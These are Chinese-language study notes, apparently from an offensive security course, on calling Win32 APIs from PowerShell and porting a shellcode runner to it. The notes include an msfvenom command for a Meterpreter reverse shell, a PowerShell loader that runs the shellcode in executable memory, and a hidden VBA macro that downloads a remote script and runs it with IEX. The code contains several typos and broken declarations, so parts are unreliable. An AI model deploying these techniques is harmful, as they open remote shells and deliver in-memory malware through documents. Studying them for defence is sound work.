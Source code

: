 ## 3.5.1 Calling Win32 APIs from PowerShell

powershell不能直接调用win32，需要用c#进行转换。
使用pinvoke，通过addtype的方式进行调用。
https://www.pinvoke.net

举例：
windows MessageBox弹窗
win32 api
```
int MessageBox(
	HWND hwnd
	LPCTSTR lpText,
	LPCTSTR lpCaption,
	UINT uType
);
```

使用Powershell调用
分三步，先声明变量 
```powershell
$User32 = @"
using System;
using System.Runtime.InteropServices;

public class User32{
	[DllImprot("user32.dll",CharSet=CharSet.Auto)]
	public static extern int MessageBox(IntPtr hwnd,String text,String caption,int options);
}
"@

Add-Type $User32

[User32]::MessageBox(0,"Alert","MyBox",0)

```

## 3.5.2 Porting Shellcode Runner to PowerShell
下一步使用powershell来加载shellcode
还是同样的三步：
1. 先申请一个可读写执行内存地址空间
2. 将shellcode复制到申请的空间中
3. 执行shellcode

Shellcode生成
```Kali
msfvenom -p windows/meterpreter/reverse_https LHost=192.168.119.120 Lport=443 Exitfunc=thread -f ps1
```

powershell ISE：
```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32{
	[DllImport("kernel32")]
	public static extern InPtr VirtualAlloc(IntPtr lpAddress,lpaddress, uint dwSize,uint flAllocationType,uint flProtect);
	[DllImport("kernel32",CharSet=CharSet.Ansi)]
	public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, unit dwStackSize, IntPtr lpStartAddress,IntPtr lpParameter,uint dwCreationFlags,IntPtr lpThreadId)
	[DllImport("kernel32",SetLastError=true)]
	public static extern UInt32 WaitForSingleObject(IntPtr hHandle,UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,....

$size = $buf.Length

[IntPtr]$addr = [kernel32]::VirtualAlloc(0,$size,0x3000,0x40)

[System.Runtime.InteropService.Marshal]::Copy($buf,0,$addr,$size)

$thandle=[kernel32]::CreateThread(0,0,$addr,0,0,0);

[kernel32]::WaitForSingleObject($thandle,[uint32]"0xFFFFFFFF")

```

Vba中使用powershell下载来加载上述ps脚本
```VB
Dim str As String
str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/run.ps1') | IEX"
shell str, vbHide

```

vba执行后，会下载powershell run.ps1 然后执行 
所有操作都在内存中完成